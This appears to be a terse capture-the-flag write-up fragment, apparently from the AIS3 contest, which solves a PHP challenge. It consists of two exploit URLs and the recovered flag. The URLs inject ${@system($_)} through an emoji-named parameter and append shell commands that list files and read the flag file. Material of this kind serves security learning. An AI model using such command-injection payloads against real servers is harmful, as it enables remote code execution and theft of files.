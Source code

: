 http://104.199.235.135:31333/?%F0%9F%8D%A3=${@system($_)}%0als

http://104.199.235.135:31333/?%F0%9F%8D%A3=${@system($_)}%0acat%20flag_name_1s_t00_l0ng_QAQQQQQQ


AIS3{php_is_very_very_very_easyyyyyy}